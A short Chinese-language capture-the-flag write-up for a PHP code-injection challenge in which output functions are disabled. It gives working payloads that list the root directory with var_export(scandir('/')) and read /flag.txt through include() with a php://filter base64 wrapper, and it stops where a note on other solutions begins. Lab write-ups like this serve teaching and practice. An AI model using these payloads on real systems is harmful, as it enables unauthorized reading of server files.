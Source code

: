 ![image-20241128234507588](assets/image-20241128234507588.png)



这题相比上一题，print_r() 和 var_dump() 也被禁用了

我们可以通过寻找其他可以打印数组的函数来打印目录

我们可以通过var_export()来代替，从而打印目录

```
c=var_export(scandir("/"));
```

![image-20241129130708792](assets/image-20241129130708792.png)

接下读flag即可

```
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag.txt
```



其他的解法：

查文件

